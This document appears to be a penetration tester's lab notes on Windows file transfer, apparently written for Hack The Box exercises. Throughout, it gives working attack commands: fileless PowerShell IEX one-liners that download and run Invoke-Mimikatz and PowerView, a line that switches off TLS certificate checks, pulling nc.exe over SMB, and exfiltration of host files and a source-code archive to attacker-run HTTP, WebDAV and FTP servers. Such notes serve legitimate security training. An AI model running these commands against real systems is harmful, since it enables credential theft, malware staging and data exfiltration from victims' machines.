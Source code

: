 ## Downloads
[[Pentest/File Transfer/Windows]]
[[File transfer common]]
#### Encoding - from linux to win
#encoding
```shell
cat id_rsa |base64 -w 0 > hash
```

[[powershell]]
```powershell
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("hash"))
```

##### Encoding - from win to lin
```powershell
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

<hash>
PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash=

Hash
----
3688374325B992DEF12793500307566D
```

```shell
echo hash= | base64 -d > hosts
```

#### Powershell
|                                                                                                                          |                                                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) |                                                                                                                            |
#### DownloadFile
```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

PS C:\htb> (New-Object 
Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

##### Fileless method
```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

##### Invoke-WebRequest

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```


##### Errors

##### Internet Explorer first-launc

```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

##### Certifcate not trusted

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

#### SMB
[[Pentest/Enumeration/services/SMB]]
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

```cmd
C:\htb> copy \\192.168.220.133\share\nc.exe
```

#### SMB with auth
```shell
jabrach@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```cmd
C:\htb> net use n: \\192.168.220.133\share /user:test test
```

#### FTP
[[FTP]]
```shell
sudo pip3 install pyftpdlib

sudo python3 -m pyftpdlib --port 21
```

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

or create command file:
```cmd
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

## Uploads
#### Upload via server
```shell
pip3 install uploadserver

python3 -m uploadserver

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```

##### Upload via base64
```powershell
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
then catch with nc:
```shell
jabrach@htb[/htb]$ nc -lvnp 8000
```

#### SMB
[[Pentest/Enumeration/services/SMB]]
```shell
sudo pip3 install wsgidav cheroot

sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```cmd
C:\htb> dir \\192.168.49.128\DavWWWRoot
```

```cmd
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

#### FTP
[[FTP]]
```shell
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```cmd
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

